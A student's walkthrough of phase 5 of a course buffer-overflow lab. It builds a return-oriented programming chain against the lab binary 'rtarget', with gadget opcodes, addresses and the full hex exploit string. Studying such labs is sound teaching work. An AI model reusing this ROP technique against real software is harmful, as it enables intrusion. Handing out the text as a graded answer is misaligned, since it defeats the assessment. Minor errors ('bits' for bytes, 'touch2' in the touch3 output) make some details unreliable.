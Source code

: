 Phase 5 is NOT WORTH the effort for 5 points. If you are an overachiever or someone with too much time on thier hands like myself then go for it. Same as Phase 4, we can't execute code for the following reasons:

1. Stack randomization -- you can't simply point your injected code to a fixed address on the stack and run your explit code
2. Non-executeble memory block. This feature prevents you from executing instructions on the machine because the memory block is marked as non-executable.

Again, the solution for this is to use ROP (Return Oriented Programming). Except it's harder this time because we can't directly obtain the desired optcodes and require several optcodes to do the same task.

As before, we will be using the program rtarget instead of ctarget

This phase is the same as phase 3 except you are using different exploit method to call touch3 and pass your cookie. This phase can be done with a minimum of 9/10 optcodes depending on the specific target obtained. Some of which are hidden/disguised by nop codes so be careful.

First things first, put in the buffer from phase4
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
```
Great! Now we need to put the cookie at rsp so then we can move its address into rax. This can be done by 

```
48 89 e0 c3	movq %rsp, %rax 
```

These optcodes can be found in the code farm dictated by the start farm and end farm comments in the binary. My particular address was: a1 5d 55 55 55 55 00 00. Remember to add/subtract the offset! Next copy rax into rdi.

```
48 89 c7 c3	movq %rax, %rdi
```

My address was 73 5d 55 55 55 55 00 00.

Next, find pop %rax which you may remember is 58 c3 from phase 4. Then leave a row of zeros such that your current product looks like so: 
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00	//end buffer
a1 5d 55 55 55 55 00 00	//rsp -> rax
73 5d 55 55 55 55 00 00	//rax -> rdi
62 5d 55 55 55 55 00 00 //My address for pop rax
00 00 00 00 00 00 00 00 //empty row of zeros
```

Now here begins the hard part...

Copy eax into esi. But if you look for the code you'll notice that it doesnt exist. Soooooo... you have to use some middle men. This takes forever because I do not know any way that does not involve doing through every possible combination. What makes it worse is if you do not find the optcode next to a c3 code, it is very likely that nop codes are inbetween them. 

Make sure you double check everything!

Anyway, what worked for me was:

```
89 c2	movl %eax, %edx
89 d1	movl %edx, %ecx
89 ce	movl %ecx, %esi

There may be more or less "middle men" for each target file.
```

Next, get the address of add_xy which should be in every target.

So now our answers file looks like:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00	//end buffer
a1 5d 55 55 55 55 00 00	//rsp -> rax
73 5d 55 55 55 55 00 00	//rax -> rdi
62 5d 55 55 55 55 00 00 //My address for pop rax
00 00 00 00 00 00 00 00 //empty row of zeros
93 5d 55 55 55 55 00 00 //eax -> edx
12 5e 55 55 55 55 00 00 //edx -> ecx
c3 5d 55 55 55 55 00 00 //ecx -> esi
8c 5d 55 55 55 55 00 00 //lea add_xy
```
Awesome, now the hard part is done!
Next, use the rax -> rdi address again.

'''
73 5d 55 55 55 55 00 00	//rax -> rdi
'''

Copy the address of touch3 in the rtarget file and then use string version of the cookie from phase 3.

```
ae 5c 55 55 55 55 00 00 //touch 3 address
33 65 38 64 65 65 38 66 //cookie as string
```

Now our answer file is almost done!

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00	//end buffer
a1 5d 55 55 55 55 00 00	//rsp -> rax
73 5d 55 55 55 55 00 00	//rax -> rdi
62 5d 55 55 55 55 00 00 //My address for pop rax
00 00 00 00 00 00 00 00 //empty row of zeros
93 5d 55 55 55 55 00 00 //eax -> edx
12 5e 55 55 55 55 00 00 //edx -> ecx
c3 5d 55 55 55 55 00 00 //ecx -> esi
8c 5d 55 55 55 55 00 00 //lea add_xy
73 5d 55 55 55 55 00 00	//rax -> rdi
ae 5c 55 55 55 55 00 00 //touch 3 address
33 65 38 64 65 65 38 66 //cookie as string
```
But what about the extra row of zeros?

That is actually our own buffer for our optcodes. So we need to have enough space for the empty row to the touch 3 address. In my case there are only 6 rows of 8 bits so 48 bits of space. 

Note: Sometimes you have to add an extra bit at the end of the cookie string and increment the buffer depending on the target.

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00	
a1 5d 55 55 55 55 00 00	
73 5d 55 55 55 55 00 00	
62 5d 55 55 55 55 00 00 
48 00 00 00 00 00 00 00 //1
93 5d 55 55 55 55 00 00 //2
12 5e 55 55 55 55 00 00 //3
c3 5d 55 55 55 55 00 00 //4
8c 5d 55 55 55 55 00 00 //5
73 5d 55 55 55 55 00 00	//6
ae 5c 55 55 55 55 00 00 //touch 3 address
33 65 38 64 65 65 38 66 //cookie as string

6 * 8 = 48
```

Finally, you run the raw file (remember you are running it on rtarget, not ctarget)


`cat phase5.txt | ./hex2raw ./rtarget`


You should get something like below:

```
Type string:Touch3!: You called touch2(0xaddress)
Valid solution for level 3 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

